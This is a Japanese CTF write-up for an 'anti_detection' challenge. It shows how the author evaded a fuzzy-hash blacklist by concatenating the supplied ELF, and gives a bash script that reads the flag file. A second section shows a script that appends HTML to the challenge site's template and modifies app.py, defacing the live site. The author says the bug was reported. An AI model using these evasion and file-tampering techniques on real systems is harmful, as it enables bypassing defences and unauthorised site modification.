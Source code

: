 # anti_detection:misc:484pts
Flagを取得するための実行ファイルとアップローダを用意しました。 ただし、この実行ファイルをそのままアップロードすると、防御システムに類似ファイルと検知されて実行されない仕組みになっています。  
そこで、検知システムをすり抜ける実行ファイルを作ってFlagを取得してください！  

[http://34.82.208.2:31516/](http://34.82.208.2:31516/)  

[detected](detected)  

Hint  
・この検知システムではFuzzyHashと呼ばれるハッシュ値の類似度を利用しています ・GhidraやIDAで処理の流れを追ってみましょう ・同等の処理を行うファイルをお好みの言語で実装してコンパイルし、実行ファイルを作成してみましょう  

# Solution
URLとelfが渡される。  
アクセスするとelfが実行可能なサイトなようで、問題文より配布されたものを実行すればよいようだ。  
![site.png](site/site.png)  
ただし、そのまま渡されたelfをアップロードすると`this file is similar to the file in blacklisted`とブロックされる。  
何かしらのルールでelfを判定しているようだ。  
パックや難読化することも考えられるが、ひとまず以下のようにelfをつなげてみる。  
```bash
$ cat detected detected > hack
$ sha256sum hack
0c9910efc60c583e83a4c83f923ee5c91d64b91cef5d2f383ecfb6356810a72a  hack
```
![flag.png](site/flag.png)  
アップロードするとflagが表示された。  
別解としてelfを解析し、出力形式を合わせた以下のようなbashでもflagを読みだせる(出力形式が異なると`invalid output`となる)。  
```bash
#!/bin/bash
echo -n "flag: `head -1 flag.txt`"
```

## taskctf{p0werfu1_fuzzy_h4sh}

---

## 誕生日のお祝い
毎年恒例であるが、何とかしてtaskさんの誕生日を祝うことを目的とする。  
本問題を攻略中、別解のbashでflag.txtを書き換えたところ通ってしまった(即修正して報告)。  
つまりファイルを書き換えることができると予測できる。  
`http://34.82.208.2:31516/404`などを見てやると、他の問題の中でflaskを用いたものと共通のメッセージであることがわかる。  
つまり、テンプレート(`templates/index.html`)を書き換えて、`app.py`を変更してやることで、再度テンプレートの読み込みが発生しサイト自体を改竄できる。  
以下のようなhappybirthday.bashで行う。  
```bash
#!/bin/bash
echo '<br><font size="7"><font color="#0000ff">t</font><font color="#0f00ef">a</font><font color="#1f00df">s</font><font color="#2f00cf">k</font><font color="#3f00bf">さ</font><font color="#4f00af">ん</font> <font color="#6f008f">誕</font><font color="#7f007f">生</font><font color="#8f006f">日</font><font color="#9f005f">お</font><font color="#af004f">め</font><font color="#bf003f">で</font><font color="#cf002f">と</font><font color="#df001f">う</font><font color="#ef000f">！</font><font color="#ff0000">🎂</font></font><br>satokiより' >> ./templates/index.html
echo -e "\n#satoki" >> ./app.py
echo -n "flag: `head -1 flag.txt`"
```
これをアップロードすると、以下のようになった。  
![happybirthday.png](site/happybirthday.png)  
**taskさん 誕生日おめでとう！🎂**(実際にはもう少し先だが)  